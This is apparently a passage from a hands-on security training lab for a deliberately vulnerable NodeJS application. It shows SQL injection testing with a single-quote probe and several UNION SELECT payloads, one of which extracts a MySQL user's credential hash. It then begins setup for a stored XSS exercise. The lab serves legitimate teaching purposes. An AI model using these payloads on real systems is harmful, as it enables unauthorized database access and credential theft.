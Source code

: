 Now try forcing an error, by injecting a single quote in the search param. It should throw an error. If it does, you can be sure that the app you are testing is vulnerable to SQL Injection

`Chile'`

![SQLi Search Error](sqli_search_error.png)

Now that we have established that SQL Injection is possible, let's start exploring SQL Injection Attacks against the application

	```
	India' UNION ALL SELECT null, (SELECT @@datadir)--  
	India' UNION ALL SELECT null, (SELECT @@version)-- 
	India' UNION ALL SELECT null, (SELECT user())-- 
	India' UNION ALL SELECT null, (SELECT database())--  
	India' UNION ALL SELECT null,(SELECT concat(user,':',authentication_string) from mysql.user LIMIT 1)-- 
	```
* Each of the above is an SQL Injection payload. Copy each payload and inject them in the search parameter by pasting the payload in the search field in the top right corner. Click the search button to execute the payload
* Observe the results

### Vulnerable Code - SQL Injection
* Open Terminal
* Command: `cd /home/we45/Downloads/sources/Cut-The-Funds-NodeJS`
* Command: `mousepad controllers/project.controller.js`
* Mousepad opens up
	* goto line 125 and look at the vulnerable SQL call


## Cross-Site Scripting - Persistent
## Pre-Processing
* Start the NodeJS Stack by running the following commands: 
	* Open up the Terminal
	* If you have already started Node, then you dont need to do the next step
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. We will be using the Web Service (3000) for this exercise
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client
